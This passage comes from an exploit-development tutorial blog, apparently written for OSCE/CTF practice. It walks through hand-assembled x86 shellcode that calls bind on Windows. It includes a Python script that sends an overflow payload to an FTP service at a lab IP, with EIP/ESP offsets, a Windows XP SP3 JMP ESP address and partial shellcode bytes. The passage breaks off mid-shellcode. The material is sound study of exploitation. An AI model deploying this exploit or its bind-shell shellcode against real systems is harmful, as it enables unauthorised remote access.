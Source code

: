 So now we've bumped our port, and we have the `sockaddr` pointer in `ECX` we can now call bind. We know that the size of this structure is 16 bytes and have our socket handle ready in `EDI`. With our parameters ready to go, we can adjust `EBX` to point to `bind`, push our stuff onto the stack and make the call:

``` txt
MOV BL, 0x54          ; Point EBX at `bind`
PUSH 0x10             ; Push 16 for the size of the struct
PUSH ECX              ; Push the sockaddr struct pointer
PUSH EDI              ; Push the socket handle
CALL EBX              ; Invoke bind
```

OK, we're starting to get the hang of this. Let's see what our script looks like prior to running it this time:

``` python
#!/usr/bin/python

import socket, struct

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

# Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)

block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6
block1 += "\x50"                               # PUSH EAX
block1 += "\xB0\x01"                           # MOV AL, 0x1
block1 += "\x50"                               # PUSH EAX
```

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux